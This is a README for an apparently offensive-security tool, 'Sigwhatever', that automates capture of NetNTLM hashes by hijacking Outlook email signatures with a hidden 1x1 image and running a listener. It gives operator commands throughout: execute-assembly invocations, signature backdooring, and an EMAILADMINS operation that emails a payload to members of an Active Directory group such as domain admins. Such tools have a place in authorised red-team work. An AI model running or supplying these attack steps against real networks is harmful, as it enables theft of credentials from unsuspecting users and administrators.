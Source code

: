 # Sigwhatever
For automated exploitation of netntlm hash capture via image tags in emails signatures. This targets Outlook specifically and will insert a 1x1px image into an existing signature block, or create a new signature as required. A listener is then started to capture authentication attempts that happen as a result of sent emails being viewed by other users.

The tool borrows code from the Seatbelt and Inveigh projects - features are:

* Queries the firewall for suitable ports to listen on (Uses some seatbelt code)
* Cross references HttpQueryServiceConfiguration for any usable URL ACLs
* TCP/HTTP server and hash capture (Uses Inveigh code)
* Signature Detection (to modify the appropriate registry settings and signatures)
* Modification of Signature
* Feature to send mail to specific group (e.g. domain admins)
* Option to create encrypted logs on disk
* Cleanup (Reverts changes in signature settings and existing signature)

---

## TL;DR

run:

`execute-assembly sigwhatever.exe AUTO`

Then when you're finished, run:

`execute-assembly sigwhatever.exe CLEANUP`

Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.

---
## Usage

`SigWhatever.exe [OPTIONS]+ operation`


### OPTIONS:
```
  -p, --port=VALUE           TCP Port.
  -l, --log=VALUE            Log file path.
  -g, --group=VALUE          Target Active Directory group.
  -f, --force                Force HTTP server start.
      --ba, --backdoor-all   Backdoor all signatures.
  -c, --challenge=VALUE      NTLM Challenge (in hex).
  -u, --url-prefix=VALUE     URL Prefix. e.g. /MDEServer/test
  -h, --help                 Show this message and exit.
```

### OPERATIONS:

- AUTO: Just do everything for me - backdoor the signature and start the listener on this box.    
  Usage: `SigWhatever.exe AUTO`

- CHECKTRUST: Check whether the trust zone settings - if the domain isn't in there then this probably won't work.    
  Usage: `SigWhatever.exe CHECKTRUST`

- CHECKFW: Check whether the host based firewall is on and whether there's an exception for the chosen port.    
  Usage: `SigWhatever.exe CHECKFW -p <port>`
  
-  SIGNATURE: hijack the current user's signature, or add a new one via registry changes.    
  Usage: `SigWhatever.exe SIGNATURE -p <port> -l <logfile> -u <url prefix> --backdoor-all --force`    
  Note: With the signature option, if --backdoor-all is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is out of date.

- SIGNOLISTEN: hijack the current user's signature, or add a new one via registry changes.    
  Usage: `SigWhatever.exe SIGNOLISTEN -s <server> -p <port> -l <logfile> --backdoor-all>`

- CLEANUP: Remove any modifications to the registry or htm signature files.    
  Usage: `SigWhatever.exe CLEANUP`

- EMAILADMINS: Enumerate email addresses from an AD group and send them a 'blank' email with the payload.    
  Usage: `SigWhatever.exe EMAILADMINS -g <Active Directory group> -p <port> -l <logfile> --force`

- LISTENONLY: Just start the listener - make sure it's on the same port.    
  Usage: `SigWhatever.exe LISTENONLY -p <port> -l <logfile>`

- SHOWACLS: List all URL Reservation ACLs with User, Everyone or Authenticated Users permissions.    
  Usage: `SigWhatever.exe SHOWACLS`

  
## Authors: 
- David Cash
- Rich Warren
- Julian Storr 
